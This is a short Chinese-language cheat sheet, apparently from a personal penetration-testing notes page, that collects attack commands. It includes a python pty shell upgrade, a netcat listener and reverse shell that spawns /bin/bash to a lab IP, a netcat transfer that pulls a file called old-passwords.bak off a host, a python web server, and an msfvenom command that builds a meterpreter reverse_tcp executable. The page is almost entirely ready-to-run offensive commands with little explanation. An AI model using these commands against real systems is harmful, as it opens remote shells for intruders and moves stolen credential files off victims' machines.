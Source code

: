 ```yaml
---
# 这是页面的图标
icon: page
# 这是文章的标题
title: 会用到的一些命令收集
# 设置作者
author: lhz
# 设置写作时间
time: 2018-10-01
# 一个页面只能有一个分类
category: 安全工具
# 一个页面可以有多个标签
tag:
  - 小命令收集

comment: false
---
```




通过python获取交互shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

nc

```
监听
nc -lvp 4444
回弹
nc -nv 192.168.141.134 4444 -e /bin/bash

使用nc传文件
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

使用python开启web服务

```
python -m SimpleHTTPServer 8090
```

使用mefvenom生成一个可执行的shell

```
msfvenom  -p linux/x86/meterpreter/reverse_tcp  lhost=192.168.42.128 lport=6666 -f elf -o 6666.elf
```

